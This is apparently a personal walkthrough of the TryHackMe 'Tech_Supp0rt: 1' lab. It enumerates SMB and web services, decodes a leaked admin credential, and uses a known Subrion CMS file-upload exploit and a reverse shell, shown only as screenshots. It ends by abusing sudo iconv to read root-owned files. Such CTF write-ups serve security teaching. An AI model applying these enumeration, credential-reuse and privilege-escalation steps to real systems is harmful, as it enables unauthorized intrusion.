# Tech_Supp0rt: 1 (THM)

- https://tryhackme.com/room/techsupp0rt1
- March 11, 2023
- easy
- not easy

---

## Enumeration

### Nmap 

```
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp  open  http         syn-ack  Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn  syn-ack  Samba smbd 3.X - 4.X
445/tcp open  microsoft-ds syn-ack  Samba smbd 3.X - 4.X
```

### SMB

- `smbmap` as guest -> `websvr` read access
- get `enter.txt` file
- interesting words from file
```
/subrion
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
```
- from cyberchef -> `admin:Scam2021` (base64)

### HTTP

- default apache page
- accidentally type `phpinfo.php` and it works
- `/subrion` directory is calling recursively (check with curl -v)
- `PHP Version 7.2.34-21+ubuntu16.04.1+deb.sury.org+1`



- `$Id: 0a764bab332255746424a1e6cfbaaeebab998e4c $` 
- don't know what is it? may be useful later.
- db -> sqlite
- Directory brute forcing with ffuf

```
test
wordpress
```

#### test 



#### wordpress site



- wpscan

```sh
wpscan --url http://$IP/wordpress -e u,vt,vp,cb
```

- wordpress version -> 5.7.2
- theme -> `teczilla` (may be out of date)
- login page - http://10.10.195.101/wordpress/wp-login.php
- login with above credential -> fail



- huge directory listing here



#### subrion

```sh
ffuf -u http://$IP/subrion/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128 -fw 20,1
```
- get `robots.txt`, `sitemap.xml`
- robots.txt
```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```
- sitemap.xml
```
/members
/about
/policy
/terms
/help
/blog
/tag
/blog/date
```
- /subrion/install



- /subrion/panel/



- subrion is CMS :D
- version -> 4.2.1
- let's try to enter with above credential -> success



## User Access

- after googling, it has a known exploit (https://www.exploit-db.com/exploits/49876) -> Authenticated Arbitary file upload



- running python code and get `www-data`user access



- make a reverse shell



- from wp-config file, get a password



- there is only one user under /home directory
- try to enter with this password though it is the database password
- lol, nice guess




## Root Access

```sh
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

```

- `iconv` is only for read

```
LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```
- for ctf, 

```sh
sudo iconv -f 8859_1 -t 8859_1 /root/root.txt  
```
- to get root ssh



---